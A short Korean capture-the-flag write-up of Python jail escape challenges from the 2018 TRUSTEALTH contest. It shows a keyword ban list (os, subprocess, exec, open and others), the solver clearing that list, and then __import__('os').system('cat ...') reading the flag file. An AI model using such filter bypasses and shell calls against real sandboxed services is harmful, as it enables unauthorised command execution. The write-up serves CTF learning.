 ```
####################
#### ch4n3 jail ####
####################
>>> __import__('os').system('cat flag')
FLAG{You already know python jail escaping}
0
```

# [2018_TRUSTEALTH] \[PWN] Pyjail

```
Welcome Pyjail!
'Q' or 'q' is Exit

You can't use this one : ['\\', '\\x', '%', 'sys', 'os', 'subprocess', '+', '=', 'glob', 'exec', 'input', 'global', 'local', '.', 'getattr', 'open', 'read', 'file', 'from']

>> 
```

위의 문자열들은 입력할 수 없습니다.

```
print dir()
['ban_list', 'data', 'j']
>> print ban_list
['\\', '\\x', '%', 'sys', 'os', 'subprocess', '+', '=', 'glob', 'exec', 'input', 'global', 'local', '.', 'getattr', 'open', 'read', 'file', 'from']
>> del ban_list[7]
>> print ban_list
['\\', '\\x', '%', 'sys', 'os', 'subprocess', '+', 'glob', 'exec', 'input', 'global', 'local', '.', 'getattr', 'open', 'read', 'file', 'from']
>> ban_list = []
```

필터링을 무력화 시켜 os.system 메소드를 실행했습니다.

```#
>> __import__('os').system('cat /home/Pyjail/flag')
TRUST{pyja1l_1s_s0_h4rd_:(}
```

# [2018_TRUSTEALTH] \[PWN] Pyjail2

```
Welcome Pyjail!
'Q' or 'q' is Exit

>> 
```

필터링 리스트가 안 주어집니다.
